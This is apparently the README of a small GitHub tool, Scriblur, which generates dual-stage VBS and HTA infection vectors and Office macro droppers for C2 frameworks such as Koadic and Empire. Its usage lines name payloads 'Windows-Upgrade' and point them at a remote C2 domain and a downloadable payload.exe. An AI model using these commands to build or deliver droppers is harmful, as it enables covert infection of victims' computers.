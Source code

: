# Scriblur
The beginnings of a C2 framework. Except minus all the C2 stuff so far. Currently generates
a dual stage VBS infection vector, and a dual stage HTA infection vector. The variables take
into account C2 addresses, Koadic/Empire payloads, and a few delivery mechanisms. The payload
files are output to an aptly named directory "Payloads" that is created if not already present.

# Installation & Usage
Scriblur is a breeze to use. Simply clone the directory, and cd into it.

For the HTA payload:
  python Scriblur.py -n Windows-Upgade -p b64encodedpayload -c amazon.com/c2/domain

# HTA Example
![alt text](https://github.com/nins3i/Scriblur/blob/master/HTA.png)

For the Macro Subroutine:
  python Scriblur.py -n Windows-Upgrade -e amazon.com/final/payload.exe

# Macro Example
![alt text](https://github.com/nins3i/Scriblur/blob/master/Macro.png)

